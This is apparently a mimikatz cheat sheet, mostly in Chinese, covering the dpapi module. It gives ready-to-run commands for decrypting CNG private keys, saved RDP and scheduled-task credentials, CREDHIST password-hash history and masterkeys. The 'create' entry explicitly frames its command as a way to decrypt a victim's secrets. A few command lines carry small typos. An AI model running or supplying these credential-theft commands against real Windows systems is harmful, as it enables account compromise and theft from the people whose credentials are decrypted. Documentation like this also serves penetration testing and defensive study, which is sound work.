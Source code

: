 ## cng

> decrypts a given CNG private key file. According to this document, the Crypto Next Generation (CNG) API is a successor of of Crypto API (CAPI).

```
mimikatz # dpapi::cng /in:"C:\Users\m3g9tr0n\AppData\Roaming\Microsoft\Crypto\Keys\de7cf8a7901d2ad13e5c67c29e5d1662_e4aad2d1-5ec0-4ea4-b259-65eda5bc47a8" /unprotect
```


## create

从原始密钥和元数据创建一个DPAPI主密钥文件。当你想在你的机器上解密一个受害者的DPAPI机密时，它就会派上用场。
```
mimikatz # dpapi::create /guid:{5c22983f-77ee-41e4-9086-8073d664e417} /key:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3 /password:Super_SecretPass /protected
```

## cred
解密DPAPI保存的凭证，如RDP、计划任务等。
```
mimikatz # dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C
```

## credhist
描述了一个Credhist文件。Passcape提到，CREDHIST是一个密码历史文件，做为一个链条，其中每个链接代表用户的旧密码哈希值（NT和SHA1）。每次用户改变密码时，旧的密码哈希值被附加到文件中，并以新的密码进行加密。

```
mimikatz# dpapi::credhist in:"C:\users<UserName>\appdata\Roaming\Microsoft\Protect\CREDHIST"
```

## masterkey

描述了一个Masterkey file，并解开了每个Masterkey 的保护（取决于密钥）。换句话说，它可以从活动目录中解密和请求Masterkey 

```
mimikatz # dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-1719172562-3308538836-3929312420-1104\cc6eb538-28f1-4ab4-adf2-f5594e88f0b2"
```

## protect

通过DPAPI调用保护数据
```
mimikatz # dpapi::protect /data:"Hello Mimikatz"

mimikatz # dpapi::protect /data:"Hello Mimikatz" /c

mimikatz # dpapi::protect /data:"Hello Mimikatz" /out:dpapi_blob.txt  #输出到文件dpapi_blob.txt
```
